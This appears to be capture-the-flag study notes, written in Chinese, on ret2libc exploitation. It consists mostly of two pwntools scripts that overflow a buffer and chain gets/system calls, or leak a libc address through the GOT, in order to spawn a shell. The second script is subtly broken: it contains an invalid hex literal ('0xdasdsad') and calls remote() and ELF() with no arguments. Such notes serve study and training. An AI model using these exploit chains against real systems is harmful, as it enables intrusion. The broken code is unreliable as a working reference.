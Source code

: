   

### ret2libc2

- 没有/bin/sh字符串，控制程序执行令执行到gets方法，输入内容到BSS段，再执行system函数

  ```python
  ##!/usr/bin/env python
  from pwn import *
  
  sh = process('./ret2libc2')
  
  gets_plt = 0x08048460
  system_plt = 0x08048490
  pop_ebx = 0x0804843d
  buf2 = 0x804a080
  payload = flat(
      ['a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
  sh.sendline(payload)
  sh.sendline('/bin/sh')
  sh.interactive()
  
  ```

  

### ret2libc3

- 没有调用system函数，通过got表泄露puts函数地址，通过libc计算system函数偏移，从而获取system函数地址。

```python
from pwn import *

io = remote()
elf = ELF()
libc = ELF()

io.sendlineafter(b" :", str(elf.got["puts"]))
io.recvuntil(b" : ")
libcBase = int(io.recvuntil(b"\n", drop = True), 16) - libc.symbols["puts"]

success("libcBase -> {:#x}".format(libcBase))
# oneGadget = libcBase + 0x3a80c
# payload = flat(cyclic(60), oneGadget)
payload = flat(cyclic(60), libcBase + libc.symbols["system"], 0xdasdsad, next(elf.search(b"sh\x00")))
io.sendlineafter(b" :", payload)

io.interactive()
```

- one_gadget 可以获取libc直接执行/bin/sh的代码片段偏移

  > constrains是调用该gadget的条件